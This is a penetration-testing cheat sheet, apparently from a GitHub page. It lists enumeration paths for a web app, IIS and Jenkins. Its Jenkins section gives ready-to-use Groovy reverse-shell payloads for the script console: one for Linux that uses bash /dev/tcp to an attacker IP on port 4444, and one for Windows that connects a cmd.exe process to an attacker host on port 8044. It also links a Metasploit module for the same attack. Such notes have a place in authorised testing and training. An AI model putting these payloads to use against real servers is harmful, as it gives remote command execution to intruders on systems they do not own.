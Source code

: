 ##### Enumeration

- Version: `/help` when logged in
- Public projects: `/explore`
- Users: `/users/sign_up`

## IIS

##### Enumeration

- General discovery: 

  `/usr/share/seclists/Discovery/Web-Content/IIS.fuzz.txt`

- Shortname scanner (`msfconsole or` https://github.com/irsdl/IIS-ShortName-Scanner)

  It returns file/dir name with the wildcards `*` and `*~1`, that have to be fuzzed

- Extensions:

  `/usr/share/wordlists/extension-wordlist/asp.net.txt`

## Jenkins

### Enumeration

- Configuration → `[URL]/configureSecurity`
- Login Page    → `[URL]/login` → Jenkins Banner / Spraying

### RCE

1. Access the script console `[URL]/script`, to run Apache Groovy scripts

2. Groovy Linux

   - Groovy code to get rev shell

     ```groovy
     r = Runtime.getRuntime()
     p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/[IP]/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
     p.waitFor()
     ```

   - [Metasploit](https://web.archive.org/web/20230326230234/https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console/)

3. Groovy Windows

   - Groovy code 

      ```groovy
       String host="[TUNIP]";
       int port=8044;
       String cmd="cmd.exe";
       Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
       ```
